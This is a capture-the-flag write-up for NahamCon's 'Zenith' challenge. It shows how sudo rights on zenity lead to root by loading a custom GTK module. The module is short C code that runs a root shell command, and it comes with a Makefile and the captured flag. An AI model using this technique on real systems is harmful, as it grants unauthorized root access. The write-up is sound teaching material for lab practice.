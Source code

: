 # Zenith
**Catagory:** Misc  
**Difficulty:** Medium
> Escalate your privileges and retrieve the flag out of root's home directory.  
> (There is intentionally no `/root/flag.txt` file present.) 

## Challenge Setup
When starting the challenge container, we're giving the following credentials:
```
# Password is userpass
ssh -p 30403 user@challenge.nahamcon.com
```

## Recon
We can log in as `user` with password `userpass`. After logging in we can start with a quick `sudo -l` to figure out if our user can run any commands with `sudo`:  
```
$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on
        zenith-ea51451dd14b1eab-5f945d548f-9n6xz:
    (root) /usr/bin/zenity
```

## Zenity
It seems like the only thing we have to work with is [zenity](https://en.wikipedia.org/wiki/Zenity), so let's have a look at its features:  
```
$ zenity

(process:19): Gtk-WARNING **: 21:23:57.400: Locale not supported by C library.
	Using the fallback 'C' locale.
Unable to init server: Could not connect: Connection refused

(zenity:19): Gtk-WARNING **: 21:23:57.401: cannot open display:
```

If you looked into zenity, the error should make sense. Zenity is a UI toolkit, so it needs some kind of X display to display UI elements onto.  

Since we only have an SSH connection, `X11Forwarding` better be enabled. Let's have a peek at the `sshd` config:

```
cat /etc/ssh/sshd_config 

 --- < snip > ---

#GatewayPorts no
X11Forwarding yes    < ---- Nice :D
#X11DisplayOffset 10

 --- < snip > ---
```

Let's reconnect to ssh with the `-X` option, which will allow X11 elements to be forwarded to our local display:

```
ssh -X -p 30403 user@challenge.nahamcon.com
```

_Now_ we can take a look at zenity's features:
```
$ zenity --help

 --- < snip > ---

  --info                             Display info dialog
  --file-selection                   Display file selection dialog

 --- < snip > ---
 ```

These two sound interesting. We can use the file selection to browse the file system, and `--info` can be used to print files.

## Finding the flag
If we run the file selection command and navigate to `/root`, we find a file called `get_flag`. Notice the rather large size, which indicates that it's probably not a simple text file.

```
sudo zenity --file-selection
```
![](./res/listing.png)

So... can we just read the this file directly? Let's give it a try.
```
sudo zenity --text-info --filename="/root/get_flag"
```

![](./res/elf.png)  

Turns out `get_flag` is a binary and zenity won't print it. We'll have to find a way to get code execution on the box and execute `get_flag`.

## Preparing the exploit

There is another interesting feature of zenity we haven't talked about yet. It is hidden in the GTK options:
```
$ zenity --help-gtk
GTK+ Options
 --- < snip > ---

  --gtk-module=MODULES               Load additional GTK+ modules

 --- < snip > ---
```

If we provide a custom `GTK+` module, zenith will run it for us. This can be used to add new fancy UI elements, or in our case, run arbitrary C code. The documentation on GTK+ modules is a bit sparse, but here is the module I ended up with.

### Code
```c
#include <unistd.h>
#include <gtk/gtk.h>

// This code is executed when our module is loaded, meaning it
// will run with sudo
void gtk_module_init(gint *argc, gchar ***argv[]) {
    // After some debugging, I found out get_flag is not executable, 
    // so let's mark it as executable first.
    char *args[] = {"/bin/sh", "-c", "chmod +x /root/get_flag; /root/get_flag", NULL};
    execve(args[0], args, NULL);
}
```

### Makefile
```makefile
all:	module.c
	gcc -c -Wall -Werror -fpic module.c `pkg-config --cflags --libs gtk+-3.0`
	gcc -shared -o libhack.so module.o `pkg-config --cflags --libs gtk+-3.0`
```

To compile the module, you'll need the gtk-dev package:
```
sudo apt-get install libgtk-3-dev
```

After compiling the module with `make`, you should be left with a `libhack.so` file. Find a way to transfer this file to the target, either via ssh or wget.  

## Flag time

All that's left to do is to run zenity with our custom module:

```
$ sudo zenity --gtk-module="/home/user/libhack.so"
flag{d1fbeab9101e0ee7fc1342e4c96b4603}
```


## Alternative solution

Apparently the `root` user was allowed to log in via `ssh` as well. By reading `root`'s private key with `--text-info` we could have logged in as root without needing to resort to custom GTK modules, but hey, where's the fun in that?
